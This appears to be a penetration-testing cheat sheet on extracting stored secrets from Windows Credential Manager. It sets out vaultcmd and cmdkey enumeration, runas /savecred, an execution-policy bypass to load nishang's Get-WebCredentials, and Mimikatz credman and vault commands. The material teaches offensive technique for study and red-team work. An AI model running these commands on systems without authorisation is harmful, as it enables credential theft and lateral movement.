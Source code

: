 # Credentials Manager

### Resources

1. **MITRE ATT$CK**

{% embed url="https://attack.mitre.org/techniques/T1555/004/" %}

2. **Additional resources (The Hacker Recipes)**

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/windows-credential-manager" %}

3. **Get-WebCredentials.ps1 (nishang)**

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1" %}

4. **cmdkey**

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey" %}



### (1) vaultcmd

**1.1** `/list`

By default, Windows has two vaults: **Web** and **Windows machine credentials**. The following command displays the two vaults:

```powershell
C:\> vaultcmd /list
```

**1.2** `/listproperties`

The following commands will list the properties of the web and windows machine credentials respectively:&#x20;

```powershell
C:\> vaultcmd /listproperties:"web credentials"
C:\> vaultcmd /listproperties:"windows credentials"
```

**1.3** `/listcreds`

List more information about the stored credentials (for web and windows machine respectively):

```powershell
C:\> vaultcmd /listcreds:"web credentials"
C:\> vaultcmd /listcreds:"windows credentials"
```

### (2) cmdkey

```powershell
C:\> cmdkey /list
```

### Retrieving/exploiting stored credentials

#### (1) runas.exe&#x20;

We can use the `runas.exe` command to run commands (eg. `cmd.exe`) as a particular user with stored credentials.

```powershell
C:\> runas.exe /savecred /user:<username> <command_to_execute>

# eg. to spawn a command prompt for the username "USER" 
C:\> runas.exe /savecred /user:USER cmd.exe
```

* `/savecred`: Indicates if the credentials have been previously saved by this user
  * This option is required to tell `runas.exe` to pull the stored credentials

#### (2) GetWebCredentials.ps1

The `vaultcmd` and `cmdkey` commands does not provide methods to show the password. Thus, we have to realy on external PowerShell scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1):

> Ensure to run powershell with the bypass policy

```powershell
C:\> powershell -ep bypass
C:\> Import-Module Get-WebCredentials.ps1
C:\> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
...
```

### (3) Mimikatz

1. `sekulrsa::credman`&#x20;

```powershell
mimikatz # privilege::debug
mimikatz # sekulrsa::credman 
```

2. `vault::list`, `vault::cred`&#x20;

```powershell
mimikatz # privilege::debug

mimikatz # vault::list 
mimikatz # vault::cred 
```

If error is encountered:

```powershell
mimikatz # token::elevate
```

### Overview of differences between `vaultcmd` and `cmdkey`

1. `vaultcmd /list`&#x20;

a. Displays both the **Web Credentials** and **Windows Credentials**

&#x20;2\. `cmdkey /list`&#x20;

a. Displays the credentials stored under **Windows Credentials** only

b. Displays the entries added via `cmdkey /add` or `runas.exe /savecred` commands

c. The output from the `vaultcmd /list` may overlap with the results from `vaultcmd /listcreds`

